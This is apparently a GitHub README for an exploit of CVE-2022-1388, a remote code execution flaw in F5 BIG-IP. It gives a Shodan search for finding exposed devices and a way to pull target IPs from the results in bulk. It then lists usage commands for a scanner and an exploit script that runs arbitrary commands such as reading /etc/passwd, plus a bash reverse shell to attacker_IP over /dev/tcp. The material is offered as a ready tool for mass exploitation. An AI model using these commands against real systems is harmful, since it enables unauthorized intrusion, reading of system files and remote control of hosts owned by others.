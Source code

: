 # CVE-2022-1388
### Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.
Save them to the list_ip file.

### Usage.
#### Check:
```
chmod +x scanner.sh
bash scanner.sh
```
#### RCE:
```
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://127.0.0.1
python3 exploit.py -u https://127.0.0.1 -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
#### Reverse Shell:
```
nc -nvlp 8888
python3 exploit.py -u https://victim_IP -c "bash -i >&/dev/tcp/attacker_IP/8888 0>&1"
```
